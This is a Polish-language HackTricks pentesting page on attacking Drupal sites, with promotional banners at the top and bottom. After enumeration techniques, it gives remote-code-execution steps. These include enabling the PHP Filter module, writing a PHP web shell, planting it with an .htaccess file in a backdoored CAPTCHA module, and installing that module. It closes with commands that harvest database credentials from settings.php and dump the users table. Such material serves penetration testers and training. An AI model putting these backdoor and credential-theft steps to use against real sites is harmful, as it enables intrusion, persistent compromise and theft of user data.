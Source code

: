 # Drupal

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Odkrywanie

* Sprawdź **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Węzeł**: Drupal **indeksuje swoje treści za pomocą węzłów**. Węzeł może **przechowywać wszystko**, takie jak wpis na blogu, ankieta, artykuł, itp. URI strony mają zazwyczaj formę `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Wyliczanie

Drupal obsługuje **trzy rodzaje użytkowników** domyślnie:

1. **`Administrator`**: Ten użytkownik ma pełną kontrolę nad stroną internetową Drupal.
2. **`Użytkownik uwierzytelniony`**: Ci użytkownicy mogą zalogować się na stronie internetowej i wykonywać operacje, takie jak dodawanie i edytowanie artykułów, w zależności od ich uprawnień.
3. **`Anonimowy`**: Wszyscy odwiedzający stronę internetową są oznaczeni jako anonimowi. Domyślnie tym użytkownikom wolno tylko czytać posty.

### Wersja

* Sprawdź `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Nowe instalacje Drupal domyślnie blokują dostęp do plików `CHANGELOG.txt` i `README.txt`.
{% endhint %}

### Wyliczanie nazwy użytkownika

#### Rejestracja

W _/user/register_ spróbuj utworzyć nazwę użytkownika, a jeśli nazwa jest już zajęta, zostaniesz poinformowany:

![](<../../.gitbook/assets/image (325).png>)

#### Żądanie nowego hasła

Jeśli żądasz nowego hasła dla istniejącej nazwy użytkownika:

![](<../../.gitbook/assets/image (900).png>)

Jeśli żądasz nowego hasła dla nieistniejącej nazwy użytkownika:

![](<../../.gitbook/assets/image (304).png>)

### Pobierz liczbę użytkowników

Odwiedzając _/user/\<number>_ możesz zobaczyć liczbę istniejących użytkowników, w tym przypadku jest 2, ponieważ _/users/3_ zwraca błąd not found:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Ukryte strony

**Fuzz `/node/$`, gdzie `$` to liczba** (od 1 do 500 na przykład).\
Możesz znaleźć **ukryte strony** (testowe, deweloperskie), które nie są indeksowane przez wyszukiwarki.

#### Informacje o zainstalowanych modułach
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Automatyczne
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Z modułem PHP Filter

{% hint style="warning" %}
W starszych wersjach Drupal **(przed wersją 8)** było możliwe zalogowanie się jako administrator i **włączenie modułu `PHP filter`**, który "Umożliwia ocenianie osadzonego kodu PHP/skryptów."
{% endhint %}

Musisz mieć zainstalowany **plugin php** (sprawdź to przechodząc do _/modules/php_ i jeśli zwraca **403**, to **istnieje**, jeśli **nie znaleziono**, to **plugin php nie jest zainstalowany**)

Przejdź do _Modules_ -> (**Sprawdź**) _PHP Filter_ -> _Zapisz konfigurację_

![](<../../.gitbook/assets/image (247) (1).png>)

Następnie kliknij _Dodaj zawartość_ -> Wybierz _Podstawowa strona_ lub _Artykuł_ -> Napisz _kod php shellcode w treści_ -> Wybierz _Kod PHP_ w _Format tekstu_ -> Wybierz _Podgląd_

![](<../../.gitbook/assets/image (335).png>)

W końcu po prostu przejdź do nowo utworzonego węzła:
```bash
curl http://drupal-site.local/node/3
```
### Zainstaluj moduł PHP Filter

Od wersji **8 i nowszych**, [**moduł PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **nie jest instalowany domyślnie**. Aby skorzystać z tej funkcjonalności, musimy **zainstalować moduł samodzielnie**.

1. Pobierz najnowszą wersję modułu ze strony internetowej Drupal.
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. Po pobraniu przejdź do **`Administracja`** > **`Raporty`** > **`Dostępne aktualizacje`**.
4. Kliknij **`Przeglądaj`**, wybierz plik z katalogu, do którego go pobraliśmy, a następnie kliknij **`Zainstaluj`**.
5. Po zainstalowaniu modułu możemy kliknąć **`Zawartość`** i **utworzyć nową podstawową stronę**, podobnie jak w przykładzie dla Drupal 7. Ponownie upewnij się, że **wybrano `Kod PHP` z rozwijanej listy `Format tekstu`**.

### Moduł z tylnymi drzwiami

Moduł z tylnymi drzwiami można stworzyć poprzez **dodanie powłoki do istniejącego modułu**. Moduły można znaleźć na stronie drupal.org. Wybierzmy moduł, na przykład [CAPTCHA](https://www.drupal.org/project/captcha). Przewiń w dół i skopiuj link do archiwum [tar.gz](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Pobierz archiwum i wypakuj jego zawartość.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Utwórz **PHP web shell** o następującej zawartości:
```php
<?php
system($_GET["cmd"]);
?>
```
* Następnie musimy utworzyć plik **`.htaccess`**, aby uzyskać dostęp do folderu. Jest to konieczne, ponieważ Drupal odmawia bezpośredniego dostępu do folderu **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Konfiguracja powyżej będzie stosować reguły dla folderu /, gdy żądamy pliku w /modules. Skopiuj oba te pliki do folderu captcha i utwórz archiwum.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Zakładając, że mamy **dostęp administracyjny** do strony internetowej, kliknij **`Zarządzaj`**, a następnie **`Rozszerzenia`** w pasku bocznym. Następnie kliknij przycisk **`+ Zainstaluj nowy moduł`**, i zostaniemy przeniesieni do strony instalacji, na przykład `http://drupal-site.local/admin/modules/install`. Przejdź do zainfekowanego archiwum Captcha i kliknij **`Zainstaluj`**.
* Po udanej instalacji, przejdź do **`/modules/captcha/shell.php`** aby wykonać polecenia.

## Po Wykorzystaniu

### Odczytaj settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Wyciek użytkowników z bazy danych
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Odnośniki

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details>

<summary><strong>Zacznij od zera i zostań mistrzem hakowania AWS dzięki</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
